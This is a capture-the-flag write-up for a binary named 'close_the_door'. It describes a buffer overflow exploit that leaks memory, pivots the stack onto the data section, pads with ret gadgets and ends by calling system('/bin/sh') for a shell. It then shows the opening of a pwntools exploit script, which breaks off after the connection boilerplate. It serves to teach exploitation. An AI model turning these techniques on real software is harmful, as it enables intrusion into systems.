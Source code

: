 Here we have a very large buffer overflow.
We can also overflow variables before they are used in the call to `write`, which we can use to leak memory at an arbitrary address.
Lastly, we can change the return address to redirect code execution.
Note that if we jump directly back to this function, it will close stdout and stderr, preventing us from leaking more info, including the flag.

The variables it uses to track how many times we call the function are stored in the data section of the binary.
By pivoting the stack onto the binary, we can overwrite these variables using the buffer overflow before it checks if it should close stdout and stderr.
Using the first option, which reads 0xf bytes into another global variable, we can put useful gadgets on the stack for after the pivot, allowing us to execute the function again.

These variables are near the lower bound of the data section, so large call stacks will overflow into a non-writeable section and segfault.
To avoid this, we can use a lot of `ret` gadgets to move RSP to a greater address.
Now that we have a second overflow and have already leaked libc, we can call `system("/bin/sh\x00")` and spawn a shell.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host localhost --port 1337 close_the_door
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('close_the_door')
libc = ELF('libc.so.6')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'localhost'
port = int(args.PORT or 1337)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
```